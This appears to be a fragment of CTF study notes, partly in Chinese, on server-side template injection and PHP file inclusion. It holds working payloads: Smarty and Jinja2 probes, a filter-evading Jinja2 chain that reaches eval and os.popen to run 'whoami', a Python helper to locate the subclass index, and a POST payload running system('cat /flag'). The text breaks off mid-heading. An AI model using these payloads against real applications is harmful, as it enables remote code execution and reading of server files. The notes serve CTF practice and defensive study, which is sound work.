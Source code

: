 ### ssti

![sstitest](https://img.siren.blue/post_img/sstitest.png)

```bash
{$smarty.version}
${smarty.template}

data={{handler.setting}}
```

```bash
(1){{()['__cla''ss__'].__bases__[0]['__subcl''asses__']()}}
```

```python
import json
classes="""
[(1)]
"""
num=0
alllist=[]
result=""
for i in classes:
    if i==">":
        result+=i
        alllist.append(result)
        result=""
    elif i=="\n" or i==",":
        continue
    else:
        result+=i
#寻找要找的类，并返回其索引
for k,v in enumerate(alllist):
    if "warnings.catch_warnings" in v:
        print(str(k)+"--->"+v)
#117---> <class 'warnings.catch_warnings'>
```

`{{()['__cla''ss__'].__bases__[0]['__subcl''asses__']()[117].__init__.__globals__['__buil''tins__']['ev''al']("__im""port__('o''s').po""pen('whoami').read()")}}`

### 文件包含

```bash
#函数查找字符串在另一字符串中第一次出现的位置（区分大小写） 
#strpos("You love php, I love php too!","php");
...url/?file=shell.txt
构造post：ctfhub=system("cat /flag");
```

file_get_contents 在向目标请求时先会判断使用的协议。如果协议无法识别，就会认为它是个目录,可以配合进行目录穿越

#### php://input#从输入中读取
